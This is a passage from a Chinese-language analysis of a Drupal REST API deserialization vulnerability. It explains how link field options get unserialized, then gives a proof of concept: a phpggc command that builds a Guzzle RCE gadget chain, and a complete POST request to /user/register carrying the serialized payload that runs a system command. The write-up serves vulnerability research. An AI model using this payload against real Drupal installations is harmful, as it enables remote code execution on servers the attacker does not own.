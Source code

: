 [![](https://p403.ssl.qhimgs4.com/t01b3e18a3e1d98fef1.png)](https://p403.ssl.qhimgs4.com/t01b3e18a3e1d98fef1.png)

[![](https://p403.ssl.qhimgs4.com/t0111a6218140856c12.png)](https://p403.ssl.qhimgs4.com/t0111a6218140856c12.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p403.ssl.qhimgs4.com/t0115869b802221688d.png)

对应的 `$definitions` 是 `DiscoveryCachedTrait` 中保存的 `$definitions`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p403.ssl.qhimgs4.com/t01dd7a2ea03a725a18.png)

而在这之中恰好存在
<li>field_item:link
<ul>
- DrupallinkPluginFieldFieldTypeLinkItem- DrupalCoreFieldPluginFieldFieldTypeMapItem
那么至此漏洞以及 drupal 的流程也已叙述完毕



## 0x02 漏洞证明

如果使用/user/register接口的话，可以跳过正常的字段检测，那么需要一些必要字段来通过check，此次没有阅读源码直接猜想得出常见的用户注册字段。但是又会产生新的错误，不如不操作 : (

之后确认源码，针对输入信息的校验其实是发生在所有的denormalize之后的所以即使不传入相关信息也可以正常触发反序列化

利用 [phpggc](https://github.com/ambionics/phpggc)

```
phpggc guzzle/rce1 system id --json
```

如果使用`/user/register` 接口的话那么需要一些必要字段来通过`check`此次因为是REST接口所以可以，不阅读源码直接猜想得出

```
POST /drupal/user/register?_format=hal_json HTTP/1.1
Host: 127.0.0.1
Content-Type: application/hal+json
cache-control: no-cache
Postman-Token: 258f5d68-a142-4837-b76c-b15807e84bdb
`{`
"link": [`{`"options":"O:24:"GuzzleHttp\Psr7\FnStream":2:`{`s:33:"u0000GuzzleHttp\Psr7\FnStreamu0000methods";a:1:`{`s:5:"close";a:2:`{`i:0;O:23:"GuzzleHttp\HandlerStack":3:`{`s:32:"u0000GuzzleHttp\HandlerStacku0000handler";s:2:"id";s:30:"u0000GuzzleHttp\HandlerStacku0000stack";a:1:`{`i:0;a:1:`{`i:0;s:6:"system";`}``}`s:31:"u0000GuzzleHttp\HandlerStacku0000cached";b:0;`}`i:1;s:7:"resolve";`}``}`s:9:"_fn_close";a:2:`{`i:0;r:4;i:1;s:7:"resolve";`}``}`"`}`],
"title": ["bbb"],
"username": "213",
"password": "EqLp7rhVvsh3fhPPsJBP",
"email": "c1tas@c1tas.com",
"_links": `{`
"type": `{`"href": "http://127.0.0.1/drupal/rest/type/shortcut/default"`}`
`}`
`}`------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
